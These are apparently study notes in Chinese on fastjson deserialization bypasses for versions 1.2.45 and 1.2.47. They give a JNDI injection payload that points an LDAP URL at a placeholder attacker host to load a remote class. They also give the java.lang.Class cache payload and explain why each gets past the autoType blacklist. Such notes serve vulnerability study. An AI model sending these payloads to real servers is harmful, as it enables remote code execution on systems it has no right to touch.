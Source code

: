 ## <font style="color:rgb(51, 51, 51);">1.2.45</font>
JndiDataSourceFactory jndi

<font style="color:rgb(51, 51, 51);">RCE，肯定不是之前的方法绕过的，这次是通过不在黑名单里面的类来绕过的</font>

```plain
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://x.x.x.x/Exp"}}
```

## <font style="color:rgb(51, 51, 51);">1.2.47</font>
<font style="color:rgb(51, 51, 51);">这个版本绕过了</font>`<font style="background-color:rgb(247, 247, 247);">autoTypeSupport</font>`<font style="color:rgb(51, 51, 51);">检测，</font>**<font style="color:rgb(51, 51, 51);">不开启</font>**`**<font style="background-color:rgb(247, 247, 247);">ast</font>**`**<font style="color:rgb(51, 51, 51);">依然可以利用</font>**<font style="color:rgb(51, 51, 51);">（1.2.25 - 1.2.45 这些绕过都是需要开启</font>`<font style="background-color:rgb(247, 247, 247);">ast</font>`<font style="color:rgb(51, 51, 51);">的）</font>

<font style="color:rgb(51, 51, 51);">Payload：</font>

```plain
{
    "a":
    {
        "@type": "java.lang.Class",
        "val": "org.example.User"
    },
    "b":
    {
        "@type": "org.example.User",
        "username": "123456",
        "age": 123
    }
}
```

<font style="color:rgb(51, 51, 51);">绕过原理：</font>

1. <font style="color:rgb(51, 51, 51);">利用到了</font>`<font style="background-color:rgb(247, 247, 247);">java.lang.class</font>`<font style="color:rgb(51, 51, 51);">，这个类不在黑名单，所以checkAutotype可以过</font>
2. <font style="color:rgb(51, 51, 51);">这个</font>`<font style="background-color:rgb(247, 247, 247);">java.lang.class</font>`<font style="color:rgb(51, 51, 51);">类对应的deserializer为MiscCodec，deserialize时会取json串中的val值并load这个val对应的class，如果fastjson cache为true，就会缓存这个val对应的class到全局map中</font>
3. <font style="color:rgb(51, 51, 51);">如果再次加载val名称的class，并且autotype没开启（因为开启了会先检测黑白名单，所以这个漏洞开启了反而不成功），下一步就是会尝试从全局map中获取这个class，如果获取到了，直接返回</font>

## 其他类和依赖
## <font style="color:rgb(51, 51, 51);">1.2.62</font>
前面基本关了


